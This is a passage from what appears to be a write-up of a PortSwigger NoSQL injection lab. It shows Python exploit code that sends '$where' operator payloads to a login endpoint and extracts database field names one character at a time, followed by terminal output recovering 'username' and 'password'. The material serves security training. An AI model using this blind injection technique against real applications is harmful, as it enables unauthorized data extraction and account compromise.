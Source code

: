 ```python

                loginData = {
                    'username': username,
                    'password': password,
                    '$where': whereOperatorKey
                }
                loginRespond = requests.post(f'{self.baseUrl}{LOGIN_ENDPOINT}', json=loginData)
                isValidCharacter = False if 'Invalid username' in loginRespond.text else True
                isLastCharacter = character == LAST_CHARACTER
                isEmptyFieldName = True if len(fieldName) == 0 else False

                if not isValidCharacter and isLastCharacter and isEmptyFieldName:
                    print(f'[-] Looped through all possible characters, no luck. This field position {fieldPosition} doesn\'t have a field?')
                    return
                if not isValidCharacter and isLastCharacter:
                    print('[-] Looped through all possible characters, no luck. Maybe we found all the characters?')
                    print(f'[*] Field name: {fieldName}')
                    return
                if isValidCharacter:
                    fieldName += character
                    print(f'\n[+] Found valid character "{character}" on field position {fieldPosition}')
                    break

if __name__ == '__main__':
    baseUrl = 'https://0a5d009d04e55d29804112b8009f007b.web-security-academy.net'
    exploit = Exploit(baseUrl)

    # you can change your minimum/maximum field position here
    MINIMUM_FIELD_POSITION = 0
    MAXIMUM_FIELD_POSITION = 4
    for fieldPosition in range(MINIMUM_FIELD_POSITION, MAXIMUM_FIELD_POSITION):
        exploit.extractFieldNames(fieldPosition)
```

```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/NoSQL-Injection/NoSQLi-4)-[2023.10.10|15:17:08(HKT)]
└> python3 extract_field_names.py
[-] Looped through all possible characters, no luck. This field position 0 doesn't have a field?
[*] Sending payload: Object.keys(this)[1].match("^u.*")
[+] Found valid character "u" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^us.*")
[+] Found valid character "s" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^use.*")
[+] Found valid character "e" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^user.*")
[+] Found valid character "r" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^usern.*")
[+] Found valid character "n" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^userna.*")
[+] Found valid character "a" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^usernam.*")
[+] Found valid character "m" on field position 1
[*] Sending payload: Object.keys(this)[1].match("^username.*")
[+] Found valid character "e" on field position 1
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Field name: username
[*] Sending payload: Object.keys(this)[2].match("^p.*")
[+] Found valid character "p" on field position 2
[...]
[*] Sending payload: Object.keys(this)[2].match("^password.*")
[+] Found valid character "d" on field position 2
```